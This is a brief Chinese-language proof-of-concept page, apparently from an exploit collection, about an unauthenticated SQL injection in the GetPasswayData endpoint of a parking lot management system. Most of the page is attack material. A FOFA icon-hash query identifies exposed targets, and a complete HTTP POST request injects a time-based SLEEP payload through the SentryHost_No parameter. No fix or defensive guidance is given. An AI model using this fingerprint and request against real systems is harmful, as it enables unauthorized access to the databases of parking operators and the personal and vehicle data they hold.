 # 智能停车管理系统GetPasswayData存在SQL注入漏洞

停车场后台管理系统 GetPasswayData 存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用&nbsp;SQL&nbsp;注入漏洞获取数据库中的信息。

## fofa

```yaml
icon_hash="938984120"
```

## poc

```java
POST /LaneMonitor/GetPasswayData HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
 
SentryHost_No=1';SELECT+SLEEP(5)#
```

